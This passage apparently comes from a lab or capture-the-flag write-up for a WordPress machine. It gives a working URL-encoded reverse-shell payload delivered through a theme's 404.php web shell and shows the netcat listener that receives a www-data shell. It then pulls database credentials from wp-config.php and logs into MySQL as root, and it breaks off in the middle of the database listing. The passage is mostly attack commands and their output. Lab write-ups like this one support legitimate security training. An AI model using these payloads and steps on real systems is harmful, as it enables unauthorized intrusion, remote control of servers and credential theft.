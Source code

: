 ```bash
URL: http://192.168.242.50/wordpress/wp-content/themes/twentyfourteen/404.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.242.50] 51742
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Enumerate Wordpress Settings

Locate MySQL credentials in _/var/www/html/wordpress/wp-config.php_

```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

## Enumerate MySQL Databases

Authenticate to MySQL service with _root_ user.

```bash
www-data@ubuntu:/var/www/html/wordpress$ mysql -u root -prootpassword!
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 136
Server version: 5.7.17-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| deneme             |
```